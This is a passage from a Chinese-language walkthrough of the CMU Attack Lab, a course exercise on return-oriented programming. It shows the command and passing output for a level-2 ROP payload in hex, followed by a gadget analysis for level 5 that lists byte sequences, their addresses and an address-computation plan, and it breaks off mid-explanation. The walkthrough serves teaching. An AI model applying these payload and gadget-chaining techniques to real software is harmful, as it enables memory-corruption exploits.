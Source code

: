 ```shell
$ cat exploit.txt | ./hex2raw | ./rtarget -q
```

最终得以下输出：

```
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:2:90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A2 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00 
```

## 第五关

在 `start_farm` 与 `end_farm` 之间（可存入 `full_farm.d` 以便检索），编码 `0xc3` 共出现 50 次 —— 可用指令只能取自这 50 处。

本关难点在于：

- 退出 `getbuf()` 时，存于栈内的字符串必须完整地位于栈顶以上，即字符串的首地址不得小于 `R[rsp] + 8`，否则 `touch3()` 或 `hexmatch()` 的帧将破坏该字符串。
- 除 `add_xy()` 中的 `leaq` 指令外，没有提供其他算术运算指令，因此无法直接算出 `R[rsp]+8` 的值。
- 除退出 `getbuf()` 时有 `R[rax] == 1` 外，没有提供其他常数 —— 特别是地址运算中常用的 `8`、`16`、`32` 等。

一种可行（但较为繁琐）的方案为：先（反复）用 `add_xy()` 及 `R[rax]` 构造出所需的地址偏移量，再用 `add_xy()` 算出字符串的地址。

可用的 `mov` 指令如下：

- 用正则表达式 `48 89 [cdef]` 搜索可用的 `movq` 指令，得 9 处：
  - `48 89 c7` 出现 3 次，其中可用作 `movq %rax, %rdi` 的有
    - 始于 `0x4019a2` 的 `48 89 c7 c3`
    - 始于 `0x4019c5` 的 `48 89 c7 90 c3`
  - `48 89 e0` 出现 6 次，其中可用作 `movq %rsp, %rax ` 的有
    - 始于 `0x401a06` 的 `48 89 e0 c3`
    - 始于 `0x401aad` 的 `48 89 e0 90 c3`
  - 不存以 `%rsp` 为目标的 `movq` 指令（即 `48 89 [cdef][4c]`），故 `%rsp` 只能被 `popq` 即 `retq` 修改。
- 用正则表达式 `89 [cdef]` 搜索可用的 `movl` 指令，并排除  `48 89 [cdef]` 即 `movq` 指令，得 16 处：
  - `89 c2` 出现 6 次，其中可用作 `movl %eax, %edx` 的有
    - 始于 `0x4019dd` 的 `89 c2 90 c3`
    - 始于 `0x401a42` 的 `89 c2 84 c0 c3`
  - `89 ce` 出现 4 次，其中可用作 `movl %ecx, %esi` 的有
    - 始于 `0x401a13` 的 `89 ce 90 90 c3`
    - 始于 `0x401a27` 的 `89 ce 38 c0 c3`
  - `89 d1` 出现 4 次，其中可用作 `movl %edx, %ecx` 的有
    - 始于 `0x401a34` 的 `89 d1 38 c9 c3`
    - 始于 `0x401a68` 的 `89 d1 08 db c3`
  - `89 e0` 出现 2 次，略去不用。

借助这些指令，可以构造出 `2` 的整数次幂：
